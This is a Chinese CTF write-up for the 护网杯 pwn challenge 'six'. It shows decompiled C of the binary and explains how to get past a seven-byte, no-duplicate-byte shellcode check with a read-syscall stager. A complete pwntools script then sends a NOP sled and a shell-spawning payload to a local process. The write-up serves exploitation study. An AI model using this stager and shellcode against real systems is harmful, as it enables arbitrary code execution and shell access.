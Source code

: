 ```yaml
---
layout:     post
title:      护网杯six题解
subtitle:    护网杯six
date:       2018-12-27
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> six


# six

源码如图


```c

int __cdecl main(int argc, const char **argv, const char **envp)
{
  void (__fastcall *v3)(__int64, char *);  // ST08_8@1
  
  size_t v4; // rax@1
  
  char *v5; // rbx@1
  
  size_t v6; // rax@1
  
  int result; // eax@1
  
  __int64 v8; // rcx@1
  
  char s; // [sp+10h] [bp-20h]@1
  
  __int64 v10; // [sp+18h] [bp-18h]@1
  
  v10 = *MK_FP(__FS__, 40LL);
  mmap2();                                      // 分配两块地址 
  
                                                // dest可执行 
                                                
                                                // fake_stack可写可读 
                                                
  v3 = dest;                                    // dest地址赋值给v3 
  
  memset(&s, 0, 8uLL);
  puts("Show me your shellcode:");
  read(0, &s, 7uLL);
  check(&s, &s);
  v4 = strlen(src);
  memcpy(dest, src, v4);                        // src传到第一块内存中 
  
  v5 = dest;
  v6 = strlen(src);
  memcpy(&v5[v6], &s, 7uLL);                    // 将用户的输入传到src之后 
  
  v3(fake_stack, &s);                           // v3即调用我们的dest函数，参数为fake_stack 
  
  result = 0;
  v8 = *MK_FP(__FS__, 40LL) ^ v10;
  return result;
}

__int64 mmap2()
{
  int fd; // ST04_4@1
  __int64 buf; // [sp+8h] [bp-18h]@1 //buf低地址
  
  __int64 v3; // [sp+10h] [bp-10h]@1 //v3高地址
  
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  fd = open("/dev/urandom", 0);
  read(fd, &buf, 6uLL);
  read(fd, &v3, 6uLL);
  dest = mmap((v3 & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7, 34, -1, 0LL);  // dest可执行 
  
  fake_stack = mmap((buf & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 3, 34, -1, 0LL) + 1280;
  return *MK_FP(__FS__, 40LL) ^ v4;
}

__int64 __fastcall check(__int64 a1)
{
  __int64 result;   // rax@2
  
  signed int i; // [sp+18h] [bp-8h]@1
  
  int j; // [sp+1Ch] [bp-4h]@2

  for ( i = 0; i <= 6; ++i )
  {
    result = (i + 1);
    for ( j = i + 1; j <= 6; ++j )
    {
      result = *(j + a1);
      if ( *(i + a1) == result )
      {
        puts("Invalid shellcode!");
        exit(0);
      }
    }
  }
  return result;
}

```



其中check函数是用来检测我们写的shellcode是不是每个字节相同的。

对于src即我们的shellcode之前的那一段代码，

因为具有可执行性所以我们的代码是

![1545912100040](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/six.png)

把所有的寄存器都设为了0，并且把rsp指向了第二块申请内存的地址

所以这题的思路是，由于src将各寄存器都置0了，我们可以利用0号系统调用read输入进行第二次的shellcode输入，输入位置可以是rsp栈顶，rax=0表示0号调用read,rdi=0表示标准输入，rsi可以设置为rsp，表示输入到栈顶，rdx表示输入字节大小，这个不固定，只要能过judge就行。然后通过read输入shellcode覆盖这两块内存空间，直到覆盖过rip，最后在尾部加上调用shell的shellcode即可。这里我用nop填充。

最后脚本为

```python

from pwn import *
context(os="linux",arch="amd64",log_level="debug",endian="little")
context.terminal = ['tmux', 'split', '-h']
sh = process("./seven")
#gdb.attach(sh,"b read")
sh.recvuntil("Show me your shellcode:")

payload1 =asm("push rsp;pop rsi;mov edx,esi;syscall")
sh.sendline(payload1)
nop=asm("nop")
shell= asm(shellcraft.sh())

payload2=nop*0xb36+shell
sh.sendline(payload2)
sh.interactive()

```

至于那个长度b36，可以在调试的时候测试出来。

